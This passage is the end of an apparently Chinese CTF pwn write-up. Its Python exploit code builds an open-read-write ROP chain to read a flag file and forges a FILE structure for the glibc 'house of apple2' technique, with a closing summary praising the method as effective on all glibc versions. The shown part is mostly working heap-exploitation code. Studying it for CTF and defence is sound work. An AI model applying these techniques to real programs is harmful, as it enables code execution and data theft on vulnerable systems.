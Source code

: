 ```bash
orw_addr=heap_base+0x2090
orw=b'./flag\x00\x00'
orw+=p64(pop_rdx_r12)+p64(0)+p64(chunk0-0x10)
orw+=p64(pop_rdi)+p64(orw_addr)
orw+=p64(pop_rsi)+p64(0)
orw+=p64(open_addr)

orw+=p64(pop_rdi)+p64(3)
orw+=p64(pop_rsi)+p64(orw_addr+0x100)
orw+=p64(pop_rdx_r12)+p64(0x50)+p64(0)
orw+=p64(read_addr)

orw+=p64(pop_rdi)+p64(orw_addr+0x100)
orw+=p64(puts_addr)

edit(9,orw)


pl=p64(0)+p64(leave_ret)+p64(0)+p64(io_all-0x20)
pl+=p64(0)*2+p64(0)+p64(orw_addr) #chunk0+0x48
pl+=p64(0)*4
pl+=p64(0)*3+p64(lock)
pl+=p64(0)*2+p64(chunk0+0xe0)+p64(0)
pl+=p64(0)*4
pl+=p64(0)+p64(wfile) 
pl+=p64(0)*0x1c+p64(chunk0+0xe0+0xe8)     #chunk0+0xe0
pl+=p64(0)*0xd+p64(magic_gadget)

edit(5,pl)#4
add(8,0x500,'bbbb')

add(10,0x440,'aaaa')

choice(add_idx)

sla('How much?\n',str(20))

itr()
```

## 总结

House of apple2 至今仍然是 IO 利用中最好用的手法之一，只需要一次 largebin attack 的简便手法以及巧妙的 IO 函数调用链也是它至今仍全版本通用的秘方
